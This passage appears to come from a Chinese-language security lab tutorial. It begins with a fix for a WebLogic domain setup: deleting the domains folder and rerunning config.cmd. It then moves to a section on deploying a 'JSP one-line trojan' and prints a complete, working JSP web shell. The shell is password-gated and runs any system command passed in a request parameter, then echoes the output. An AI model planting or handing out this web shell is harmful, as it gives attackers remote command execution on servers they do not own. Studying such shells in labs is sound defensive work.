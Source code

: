 **解决方案是**：

先删除文件夹

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains
```

再双击新建域就好了，新建以后直接部署web项目即可。

```
C:\Oracle\Middleware\Oracle_Home\oracle_common\common\bin\config.cmd
```

![image-20220407150811847](../../images/image-20220407150811847.png)

## 部署jsp一句话木马

1.jsp一句话木马

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```
